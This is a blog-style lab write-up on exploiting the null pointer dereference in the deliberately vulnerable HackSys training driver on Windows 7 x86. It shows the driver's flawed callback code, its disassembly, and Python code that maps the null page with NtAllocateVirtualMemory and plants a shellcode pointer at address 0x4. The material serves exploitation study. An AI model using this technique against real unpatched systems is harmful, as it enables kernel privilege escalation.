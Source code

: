 ```yaml
---
layout: post
title:  "Windows Kernel Exploitation: Null Pointer Derefrence"
date:   2018-08-16 07:00:00
categories: windows-kernel-exploit
permalink: /archivers/Windows-Kernel-Exploitation-Null-Pointer-Derefrence
---
```

## Overview
pwn is fun.

It's interesting that we can figure out how to allocate memory which address is less than 0x1000. let's see how to do exploit null page with this magic tech.

### Environment
* Debugger OS: Win7 x64
* Debuggee OS: Win7 x86
* Debug software: Windbg, IDA

## Analysis
First check the [source code](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/NullPointerDerefrence.c).
```C
NullPointerDereference = (PNULL_POINTER_DEREFERENCE)
                                  ExAllocatePoolWithTag(NonPagedPool,
                                                        sizeof(NULL_POINTER_DEREFERENCE),
                                                        (ULONG)POOL_TAG);

        if (!NullPointerDereference) {
            // Unable to allocate Pool chunk
            DbgPrint("[-] Unable to allocate Pool chunk\n");

            Status = STATUS_NO_MEMORY;
            return Status;
        }
        else {
            DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
            DbgPrint("[+] Pool Type: %s\n", STRINGIFY(NonPagedPool));
            DbgPrint("[+] Pool Size: 0x%X\n", sizeof(NULL_POINTER_DEREFERENCE));
            DbgPrint("[+] Pool Chunk: 0x%p\n", NullPointerDereference);
        }

        // Get the value from user mode
        UserValue = *(PULONG)UserBuffer;

        DbgPrint("[+] UserValue: 0x%p\n", UserValue);
        DbgPrint("[+] NullPointerDereference: 0x%p\n", NullPointerDereference);

        // Validate the magic value
        if (UserValue == MagicValue) {
            NullPointerDereference->Value = UserValue;
            NullPointerDereference->Callback = &NullPointerDereferenceObjectCallback;

            DbgPrint("[+] NullPointerDereference->Value: 0x%p\n", NullPointerDereference->Value);
            DbgPrint("[+] NullPointerDereference->Callback: 0x%p\n", NullPointerDereference->Callback);
        }
        else {
            DbgPrint("[+] Freeing NullPointerDereference Object\n");
            DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
            DbgPrint("[+] Pool Chunk: 0x%p\n", NullPointerDereference);

            // Free the allocated Pool chunk
            ExFreePoolWithTag((PVOID)NullPointerDereference, (ULONG)POOL_TAG);

            // Set to NULL to avoid dangling pointer
            NullPointerDereference = NULL;
        }

#ifdef SECURE
        // Secure Note: This is secure because the developer is checking if
        // 'NullPointerDereference' is not NULL before calling the callback function
        if (NullPointerDereference) {
            NullPointerDereference->Callback();
        }
#else
        DbgPrint("[+] Triggering Null Pointer Dereference\n");

        // Vulnerability Note: This is a vanilla Null Pointer Dereference vulnerability
        // because the developer is not validating if 'NullPointerDereference' is NULL
        // before calling the callback function
        NullPointerDereference->Callback();
```
As we can see in the source code, everything is clearly explained in the source. The `UserValue` is compared with the value `0xBAD0B0B0` and if it fails the `NullPointerDereference` value is set to NULL and then the value `NullPointerDereference` is not validated whether it’s NULL before calling the callback function. 

let's see it in disassemble language.
```C
                xor     esi, esi ; the esi reg is NullPointerDerefrence pointer
                push    offset aTriggeringNull ; "[+] Triggering Null Pointer Dereference"...
                call    _DbgPrint
                pop     ecx
                call    dword ptr [esi+4]
```
Because the `NullPointerDereference` is set to NULL, so the call `call    dword ptr [esi+4]` turn into `call [0x4]`, this is the vuln.

## Explotation
As mentioned before, Win7 OS doesn't have SMEP or SMAP, we can execute our shellcode directly. What we need to do is that allocate memory less than 0x1000.  
### How to allocate memory less than 0x1000
Functions such as `VirtualAlloc` or `VirtualAllocEx` won’t allow us to allocate memory at a starting address less than 0x00001000. Thanks for researchers' researching and sharing. There is a NTAPI undocumented function `NtAllocateVirtualMemory`. We can use this function to map a null page in user space and after that, we can write the pointer to shellcode at address 0x00000004.

Below is the example code to allocate value in 0x4:
```PYTHON
def Allocate_NULL_page(shellcode_address):
    
    
    null_status = NtAllocateVirtualMemory(GetCurrentProcess(), byref(c_void_p(0x1)), 0, byref(c_ulong(0x100)), 0x3000,  0x40)
    if null_status != 0x0:
            print "\t[+] Failed to allocate NULL page..."
            sys.exit(-1)
    else:
            print "\t[+] NULL Page Allocated"

    ptr=c_void_p(0x4)
    ptr.contents=c_int(shellcode_address)
    
    memmove(c_void_p(0x4), byref(c_ulong(shellcode_address)), 4)
```
 

### Code
As we can allocate memory in null page, the exp is very simple. First allocate memory for shellcode and then put the address to 0x4. pwned!
The full exp code is in my [Github](https://github.com/ray-cp/windows-kernel-exploit/tree/master/HEVD/NULL_Pointer_Dereference/Win7_x86)
## Conclude
So much things need to learn and thanks for researchers' sharing.
## Link
1. [HackSys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
2. [Windows Kernel Exploitation Tutorial Part 5: NULL Pointer Dereference)](https://rootkits.xyz/blog/2018/01/kernel-null-pointer-dereference/)
3. [Windows Kernel Exploitation – Null Pointer Dereference](https://osandamalith.com/2017/06/22/windows-kernel-exploitation-null-pointer-dereference/)
4. [Part 12: Kernel Exploitation -> Null Pointer Dereference](https://www.fuzzysecurity.com/tutorials/expDev/16.html)